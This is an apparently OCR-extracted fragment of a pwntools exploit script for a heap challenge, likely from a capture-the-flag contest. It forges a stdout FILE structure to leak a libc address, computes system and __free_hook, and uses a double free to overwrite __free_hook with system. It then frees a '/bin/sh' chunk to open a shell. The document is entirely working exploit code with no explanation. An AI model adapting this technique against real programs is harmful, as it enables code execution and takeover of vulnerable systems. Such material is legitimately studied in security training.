 ```

log.info("hjack stdout struct")
fake_stdout = p64(0xfbad1800) + p64(0)*3 + "\x00" 
create(0x80,"\x20","aaaa\n")#3 
create_null_puts(0x80,fake_stdout,"aaaa\n")#4

# when call next puts will leak the libc
leak = p.recvuntil("done!",drop = True)
#print("leak = " + str(leak))
leak = leak[0x9:]
leak_add = u64(leak[:6].ljust(8,'\x00'))
libc_base = leak_add - 0x3ed8b0 # 2.27 # 0x3D73E0
libc.address = libc_base
system = libc.symbols['system']
free_hook = libc.symbols['__free_hook']
success("leak_add = " + hex(leak_add))
success("libc_base = " + hex(libc_base))
success("system = " + hex(system))
success("free_hook = " + hex(free_hook))


create_null_puts(0x30,'aaaa\n','aaaa\n')#5
free_null_puts(5)  
free_null_puts(5)
create_null_puts(0x30,p64(free_hook)*2 + "\n","aaaa\n")#6
create_null_puts(0x30,"\n","aaaa\n")#7
create_null_puts(0x30,p64(system),"aaaa\n")#8     overwrite free_hook --> system
create_null_puts(0x10,"/bin/sh\x00","aaaa\n")#9   getshell
free_null_puts(9)

p.interactive()
```
